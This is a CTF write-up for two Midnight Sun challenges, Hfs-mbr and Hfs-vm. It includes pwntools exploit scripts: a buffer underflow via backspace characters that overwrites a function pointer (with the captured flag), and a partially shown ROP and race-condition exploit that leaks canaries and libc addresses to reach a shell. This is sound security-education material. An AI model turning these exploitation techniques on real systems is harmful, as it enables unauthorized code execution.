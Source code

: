 ### Hfs-mbr

- When the input character is \x7f. The pointer of buffer move backward
- So we can use this vulnerability to overwrite the filename and function pointer then we can make it output flag2


```python=
from pwn import *

r=remote("hfs-os-01.play.midnightsunctf.se", 31337)
r.recvuntil("[HFS_MBR]>")
r.sendline("sojupwner")
r.recvuntil("[HFS-DOS]>")
r.send("\x7f"*3+"2"+"\x7f"*17+"O\x0d")
r.interactive() #midnight{th4t_was_n0t_4_buG_1t_is_a_fEatuR3}


```



### Hfs-vm

- You can find out that there are some operations can let you do read and write on stack.
- So you can leak the libc's base address, text's base address and stack's base address. Also you can overwrite the return address and trigger your rop-chain. However the length of code is not enough, you may need stack migration.
- Unfortunately the child process is limited by `SECCOMP_MODE_STRICT`. We cannot control child process to get shell. We need to compromise parent process.
- There is a shared memory buffer between child process and parent process. We use this buffer to do some buffer overflow. We can use race condition. I found that syscall `0x4` will trigger sleep. It give us the perfect timing to modify the content of shared buffer and trigger buffer overflow.
- There is one more thing that stop us from getting shell: The parent process modify its canary. So we have leak the modified canary first, then just get  the shell.



```python=
from pwn import *
import time
#r=gdb.debug("./hfs-vm",ggg)
#r=process("./hfs-vm")
poprdi=0x1e83
poprdx=0x101d
poprsi=0x198f
poprbp=0xe28
poprsp=0x1112
aaa=0x38
readd=0xca0
wwrr=0xc10
ssyscall=0x16b0
memcpy=0xcc0
sleeppp=0xD60
system=0xc60
def counttt():
  global aaa
  aaa+=1
  return aaa-1
def movv(value):
  return "\xa0\x20"+p32(value)[:2]
def loadss(base):
  pre="\x80\x20"+p32(base)[:2]+"\xa8\x08\x00\x00"
  return pre
def change(value,old):
  sub="\xa2\x20"+p32(old)[:2]
  add="\xa1\x20"+p32(value)[:2]
```